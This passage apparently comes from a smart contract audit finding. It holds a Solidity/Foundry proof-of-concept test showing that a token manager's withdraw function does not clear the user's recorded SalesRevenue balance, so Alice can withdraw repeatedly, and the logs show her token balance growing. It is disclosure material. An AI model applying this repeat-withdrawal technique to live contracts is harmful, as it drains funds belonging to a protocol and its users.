 ```javascript
        tokenManager.userTokenBalanceMap(alice, address(mockUSDCToken), TokenBalanceType.SalesRevenue);
    console.log("> Initial Alice's userTokenBalance value: %18e", initialUserTokenBalance);

    uint256 initialActualTokenBalance = mockUSDCToken.balanceOf(alice);
    console.log("> Initial Alice's actual token balance: %18e", initialActualTokenBalance);
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    // ~~~~~~~~~~ 5) First withdrawal ~~~~~~~~~~
    tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType.SalesRevenue);

    // Check balance after first withdrawal (should be 0)
    console.log(
        ">> Alice's userTokenBalance value after first withdrawal: %18e",
        tokenManager.userTokenBalanceMap(alice, address(mockUSDCToken), TokenBalanceType.SalesRevenue)
    );
    console.log(">> Actual token balance after first withdrawal: %18e", mockUSDCToken.balanceOf(alice));
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    // ~~~~~~~~~~ 6) Perform second withdrawal (should fail or return 0, but it doesn't) ~~~~~~~~~~
    tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType.SalesRevenue);

    // Check balance after second withdrawal (should still be 0, but it's not)
    uint256 userTokenBalanceAfterSecondWithdrawal =
        tokenManager.userTokenBalanceMap(alice, address(mockUSDCToken), TokenBalanceType.SalesRevenue);
    console.log(
        ">>> Alice's userTokenBalance value after second withdrawal: %18e", userTokenBalanceAfterSecondWithdrawal
    );
    console.log(">>> Actual token balance after second withdrawal: %18e", mockUSDCToken.balanceOf(alice));
    // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    // Assert that the balance is still the same as the initial balance, demonstrating the vulnerability
    assertEq(userTokenBalanceAfterSecondWithdrawal, initialUserTokenBalance);

    vm.stopPrank();
}
```

This test will yield the following logs:

```bash
- Alice's userTokenBalance before coming into the protocol: 0
- Alice's actual balance before coming into the protocol: 100000

> Initial Alice's userTokenBalance value: 170
> Initial Alice's actual token balance: 99380

>> Alice's userTokenBalance value after first withdrawal: 170
>> Actual token balance after first withdrawal: 99550

>>> Alice's userTokenBalance value after second withdrawal: 170
>>> Actual token balance after second withdrawal: 99720
```

